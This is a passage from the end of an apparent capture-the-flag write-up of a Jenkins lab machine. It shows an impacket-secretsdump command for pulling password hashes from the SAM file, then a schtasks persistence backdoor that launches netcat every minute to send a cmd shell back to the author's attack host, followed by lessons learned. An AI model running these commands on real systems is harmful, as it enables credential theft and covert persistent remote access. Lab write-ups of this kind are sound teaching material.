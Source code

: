 We can use `impacket-secretsdump` to dump any entry's in the SAM file and extract the hashes.

```shell
impacket-secretsdump $domain/$user@$box -hashes :$hash
```

{{< figure src="/ox-hugo/2025-06-18-080839_.png" >}}


### Scheduled Task Back-door: {#scheduled-task-back-door}

We can make a scheduled task to reconnect back to our host every 1 minute as a means of persistence.

```shell
schtasks /create /tn BackDoor /tr "C:\Users\Administrator\Documents\nc64.exe 10.10.14.28 53 -e cmd" /sc minute /mo 1 /ru Administrator
```

{{< figure src="/ox-hugo/2025-06-18-081523_.png" >}}

**Command Breakdown**:

1.  `/sc minute`: Specifies that the task should run every minute.
2.  `/mo 1`: Runs the task every 1 minute.
3.  `/ru Administrator`: Runs the task with System privileges.
4.  `/tr`: Specifies the action to execute, in this case, running `nc64.exe` with the specified options.

+Note+: This techniques runs every 1 minute and calls out to my attack machine. This means that even if I disconnect I can turn on my listener again and it will call back out to me.

Shell Caught.
![](/ox-hugo/2025-06-18-081605_.png)

Just to double check I disconnect to ensure it calls back out to my host another two times.
![](/ox-hugo/2025-06-18-081803_.png)


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I am already pretty comfortable with jenkins so that was fine.
2.  I did learn about ADS, but I am yet to find a use other than metadata, as it seems like a security risk?
    -   <https://blog.netwrix.com/2022/12/16/alternate_data_stream/>
3.  This also felt like an easy box and not a medium box.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Not too many this time so that was nice, must be getting enough sleep.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at bloodstiller dot com


